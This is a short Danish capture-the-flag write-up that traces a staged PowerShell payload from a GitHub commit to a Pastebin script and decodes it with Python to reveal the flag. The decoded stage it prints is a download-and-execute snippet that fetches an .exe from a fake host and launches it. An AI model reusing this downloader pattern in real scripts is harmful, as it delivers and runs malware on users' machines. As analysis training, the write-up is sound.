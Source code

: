 Hvordan er det reelle payload hentet ned og hvorfra? Kan du finde andre payloads, der kan hjælpe os til at koble aktøren på andre sager og måske endda komme dem i forkøbet?

Din analyse fra Nisseware: Phishing vil være en hjælp, men er ikke nødvendig for at løse opgaven.

---

1. Googler "N1ss3b4nd3n"
2. Finder GitHub: https://github.com/N1ss3b4nd3n/N1ss3b4nd3n
3. kigger i commits på README.md
4. Commit [48fb3b4](https://github.com/N1ss3b4nd3n/N1ss3b4nd3n/commit/48fb3b4b295eb7486289e21efa8dbe84fecabe31) har dette pastebin link: https://pastebin.com/raw/CiZTV3BA
5. Downloader pastebin siden som PowerShell .ps1 fil og
erstatter `Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString($script))`
med `echo [System.Text.Encoding]::UTF8.GetString($script)`

6. Så får jeg en lang liste af tal som jeg gemmer som "chars.txt"
7. Jeg skriver app.py (Python) hvor jeg looper gennem alle tal'ne fra "chars.txt" og
bruger Pythons "chr()" function til at lave tal'ne om til bogstaver fordi de matcher unicodes.

8. app.py printer dette ud:
```ps1
$fileUrl = "http://321.123.f4k3.1337/megetfarligfil.exe&token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```
i "$fileUrl" kan man se at GET parameteret "token" indenholder flaget -> "NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"

Flag: `NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`
